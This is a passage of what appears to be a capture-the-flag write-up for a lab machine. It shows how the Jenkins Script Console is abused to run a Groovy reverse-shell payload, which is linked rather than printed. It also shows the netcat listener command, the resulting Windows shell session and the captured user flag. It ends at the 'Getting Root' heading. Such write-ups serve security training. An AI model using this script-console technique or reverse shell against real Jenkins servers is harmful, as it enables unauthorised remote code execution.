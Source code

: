 ### 2. Getting User

On port 50000, we can find Jenkins dashboard on "/askjeeves".<br>
Besides, there is an interesting menu "Manage Jenkins".
![placeholder](https://inar1.github.io/public/images/2019-09-15/jeeves-badge.png)

After that, we can find a menu "Script Console".<br>
This allows us to run any <a href="https://groovy-lang.org/">Groovy</a> script.
![placeholder](https://inar1.github.io/public/images/2019-09-15/jeeves-badge.png)

To get a reverse shell, we need to launch netcat and prepare a payload.<br>
We can find it from <a href="https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76">Github repository</a>.
{% highlight shell %}
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
{% endhighlight %}
![placeholder](https://inar1.github.io/public/images/2019-09-15/jeeves-badge.png)

Now we got a reverse shell which is "" user.
{% highlight shell %}
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.63] 49676
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke
{% endhighlight %}

user.txt is in the directory "".
{% highlight shell %}
C:\Users\kohsuke\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\kohsuke\Desktop

11/03/2017  11:19 PM    <DIR>          .
11/03/2017  11:19 PM    <DIR>          ..
11/03/2017  11:22 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   7,475,908,608 bytes free

C:\Users\kohsuke\Desktop>type user.txt
type user.txt
e3232272596fb47950d59c4cf1e7066a
{% endhighlight %}

### 3. Getting Root
